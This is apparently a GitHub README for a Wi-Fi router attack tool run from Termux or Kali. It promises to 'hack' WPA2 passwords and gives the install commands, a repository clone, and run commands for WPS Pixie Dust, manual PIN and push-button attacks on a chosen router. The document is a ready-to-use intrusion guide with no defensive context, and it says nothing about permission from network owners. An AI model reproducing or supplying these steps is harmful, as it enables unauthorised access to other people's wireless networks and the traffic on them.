 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential

apt-get install libpcap-dev

apt-get install sqlite3

apt-get install libsqlite3-dev

apt-get install pixiewps

# installing Tool ComMand
![Screenshot_2024-01-12-16-12-14-241_com termux](https://github.com/HeartHaNterAlex/wifi/assets/139457526/16b0b31a-3385-4fb7-ac7b-5046118c0b08)

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
![Screenshot_2024-01-12-16-14-06-822_com termux](https://github.com/HeartHaNterAlex/wifi/assets/139457526/c6af3833-4b1f-4e86-b7e0-191f0ccac1b1)

sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 wifi/ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 wifi/ps.py -i wlan0 --pbc
# help command
sudo python wifi/ps.py -i wlan1 -K -h
